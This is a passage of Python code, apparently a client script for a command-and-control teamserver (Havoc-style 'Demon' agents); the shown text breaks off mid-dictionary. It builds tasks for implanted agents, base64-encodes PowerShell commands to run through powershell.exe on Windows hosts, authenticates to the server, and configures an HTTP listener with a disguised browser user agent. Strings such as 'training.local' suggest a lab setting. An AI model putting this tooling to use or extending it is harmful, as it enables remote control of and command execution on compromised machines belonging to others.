```python


def read_file_b64(path):
    data = path.expanduser().read_bytes()
    return b64(data)


def make_package(event, subevent, info, *, user=USERNAME, one_time=False):
    head = {"Event": event, "User": user, "Time": timestamp()}
    if one_time:
        head["OneTime"] = "true"
    return {"Head": head, "Body": {"SubEvent": subevent, "Info": info}}


def make_task(agent_id, command_id, command_line, **fields):
    task_id = os.urandom(4).hex()
    info = {
        "TaskID": task_id,
        "DemonID": agent_id,
        "CommandID": str(command_id),
        "CommandLine": command_line,
    }
    info.update(fields)
    return task_id, make_package(SESSION_TYPE, SESSION_INPUT, info)


def encode_ps(command):
    return (
        "0;FALSE;TRUE;C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe;"
        + b64(command.encode())
    )


def encode_path(path):
    return b64(path.encode("utf-8"))


async def authenticate(ws):
    request = make_package(
        INIT_TYPE,
        INIT_OAUTH,
        {"User": USERNAME, "Password": sha3(PASSWORD)},
    )
    await ws.send(json.dumps(request))


def listener_payload():
    hosts = ", ".join(LISTENER_HOSTS)
    info = {
        "Name": LISTENER_NAME,
        "Protocol": "HTTP",
        "Status": "online",
        "Secure": "false",
        "Hosts": hosts,
        "HostBind": LISTENER_BIND,
        "HostRotation": "Round-Robin",
        "PortBind": str(LISTENER_PORT),
        "PortConn": str(LISTENER_PORT),
        "Headers": "Server: training",
        "Uris": "/,/health",
        "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
        "HostHeader": "training.local",
        "Proxy Enabled": "false",
```